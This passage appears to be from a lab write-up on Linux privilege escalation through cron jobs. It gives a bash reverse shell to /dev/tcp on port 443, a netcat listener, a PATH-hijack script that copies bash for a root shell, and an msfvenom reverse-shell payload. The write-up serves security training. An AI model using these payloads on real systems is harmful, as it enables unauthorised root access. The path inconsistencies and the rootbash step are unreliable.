 The file `overwrite.sh` is mentioned without path, and can be exploited. We can find the file location using `locate overwrite.sh`. Check the contents of the file using `cat /usr/local/bin/overwrite.sh`.
{% capture code %}{% raw %}#!/bin/bash
echo `date` > /tmp/useless{% endraw %}{% endcapture %} {% include code.html code=code %}

The file `/usr/local/bin/overwrite.sh` is also writable.
{% capture code %}{% raw %}-rwxr--rw- 1 root staff 40 May 13  2017 /usr/local/bin/overwrite.sh{% endraw %}{% endcapture %} {% include code.html code=code %}

The file `/usr/local/bin/overwrite.sh` can be overwritten with `reverse shell payload` to gain access.
{% capture code %}{% raw %}#!/bin/bash
bash -i >& /dev/tcp/<source-ip>/443 0>&1 {% endraw %}{% endcapture %} {% include code.html code=code %}

Create a `netcat` listener. During the next cron schedule, `reverse shell` will be spawned.
{% capture code %}{% raw %}rlwrap -cAr nc -lnvp 443{% endraw %}{% endcapture %} {% include code.html code=code %}

The output will be similar to
{% capture code %}{% raw %}Listening on [0.0.0.0] (family 0, port 443)
Connection from <target-ip> 45191 received!
bash: no job control in this shell
root@debian:~#{% endraw %}{% endcapture %} {% include code.html code=code %}


## Task 9 - Cron Jobs - PATH Environment Variable

From the previous `crontab` output, the `PATH` variable output is as follows.
{% capture code %}{% raw %}PATH=/home/user:/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin{% endraw %}{% endcapture %} {% include code.html code=code %}

The file `overwrite.sh` can be created newly at other location apart from `/usr/local/bin`, which has higher priority in `$PATH`. Create a file `/home/usr/overwrite.sh`.
{% capture code %}{% raw %}#!/bin/bash
cp /bin/bash /tmp/rootbash
chmod +x /tmp/rootbash{% endraw %}{% endcapture %} {% include code.html code=code %}

Make the file executable using `chmod +x /home/user/overwrite.sh` and execute it using `/tmp/rootbash -p` to spawn a `privilege shell`.


## Task 10 - Cron Jobs - Wildcards

Use these links as references.
- [Gtfobins tar](https://gtfobins.github.io/gtfobins/tar/){:target="_blank"}

From the previous `crontab` output, the file `/usr/local/bin/compress.sh` runs as user `root`, and can be exploited. Check the contents of the file.
{% capture code %}{% raw %}#!/bin/sh
cd /home/user
tar czf /tmp/backup.tar.gz *{% endraw %}{% endcapture %} {% include code.html code=code %}

Using `msfvenom` create a reverse shell payload.
{% capture code %}{% raw %}msfvenom -p linux/x64/shell_reverse_tcp LHOST=<source-ip> LPORT=443 -f elf -o shell.elf{% endraw %}{% endcapture %} {% include code.html code=code %}
